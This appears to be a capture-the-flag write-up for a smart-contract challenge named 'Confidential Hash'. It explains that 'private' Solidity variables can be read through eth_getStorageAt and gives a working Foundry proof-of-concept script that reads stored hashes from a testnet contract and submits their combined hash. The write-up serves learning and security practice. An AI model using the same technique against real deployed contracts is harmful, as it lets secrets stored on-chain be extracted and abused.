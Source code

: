 ## Confidential Hash

### Vulnerability

The contract's logic falsely assumes that `private` variables are protected from being read from outside the contract's logic.
In fact, we can read any variable using JSON-RPC (`eth_getStorageAt`).

### Attack Steps
1. Calculate storage slots for `aliseHash` and `bobHash` variables
2. Read the variables from contract's storage
3. Calculate the hash using obtained values

### POC

forge(foundry) script:
```solidity
// SPDX-License-Identifier: MIT

pragma solidity 0.8.7;

import "forge-std/Script.sol";
import "./ConfidentialHash.sol";

contract ConfidentialHashPOC is Script {
  Confidential target = Confidential(0xf8E9327E38Ceb39B1Ec3D26F5Fad09E426888E66);

  function run() external {
    vm.startBroadcast();

    // Read storage variables(even marked private) using JSON-RPC
    // cmd: cast st 0xf8E9327E38Ceb39B1Ec3D26F5Fad09E426888E66 4
    bytes32 aliceHash = 0x448e5df1a6908f8d17fae934d9ae3f0c63545235f8ff393c6777194cae281478;
    // cmd: cast st 0xf8E9327E38Ceb39B1Ec3D26F5Fad09E426888E66 9
    bytes32 bobHash = 0x98290e06bee00d6b6f34095a54c4087297e3285d457b140128c1c2f3b62a41bd;

    bytes32 hash = keccak256(abi.encodePacked(aliceHash, bobHash));

    target.checkthehash(hash);

    vm.stopBroadcast();
  }
}
```
Run via: `forge script ConfidentialHashPOC -f $GOERLI_RPC`
